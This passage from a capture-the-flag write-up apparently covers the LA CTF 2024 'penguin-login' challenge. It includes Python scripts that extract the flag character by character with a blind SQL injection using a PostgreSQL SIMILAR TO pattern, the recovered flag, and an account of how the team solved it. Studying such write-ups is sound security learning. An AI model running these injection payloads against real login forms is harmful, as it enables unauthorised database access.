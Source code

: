 ```py
    else:
        break
    for c in digits + ascii_lowercase + ascii_uppercase:
        payload = payloadStart + c + payloadEnd + "}"
        r = s.post(URL + "submit", data={"username": payload})
        if r.status_code == 200:
            print("worked: ", payload)
            payloadStart += c
            break
        else:
            print("failed: ", payload)
    else:
        payloadStart += "_"
        print("skipping: ", payload)
```

Due to infrastructure issues, the first character of the flag couldn't be retrieved. I had to guess it (in quite a few attempts xd)

<img class="img-responsive" src="/lactf2024/penguin-login/vid/FinalPayload.gif" alt="Execution of the final script">

`lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w0}`

<img class="img-responsive" src="/lactf2024/penguin-login/img/InterestingTicket.png" alt="Extract from an interesting conversation had in a ticket">

### How it actually went during the CTF

One evening, I was at the gym to vent the frustration of not being able to find a rock on the west coast of California, United States (I love OSINT). Just before leaving, I heard that one of my teammates was having a bad time with an SQLi. "Let me solve it," I wrote to him.

I hadn't read the code yet when I received a message on Discord from said player, expressing interest in solving the challenge. "Just use `_`", I said jokingly. I didn't know that the character was actually whitelisted.

My teammate had already discovered the existence of `SIMILAR TO`, so once I got home, I only had to deal with writing the payload.

#### Payload used during the CTF

`findlen.py`
```py
from requests import *
from bs4 import BeautifulSoup

URL = "https://penguin.chall.lac.tf/"
s = Session()
payloadStart = "' OR name SIMILAR TO 'lactf{"
payloadEnd = ""
i = 0

while True:
    payload = payloadStart + payloadEnd + "}"
    r = s.post(URL + "submit", data={"username": payload})
    soup = BeautifulSoup(r.text, "html.parser")
    if "We found a penguin" in soup.get_text():
        print("worked: ", payload)
        break
    else:
        payloadEnd += "_"
        print("failed: ", payload)
```
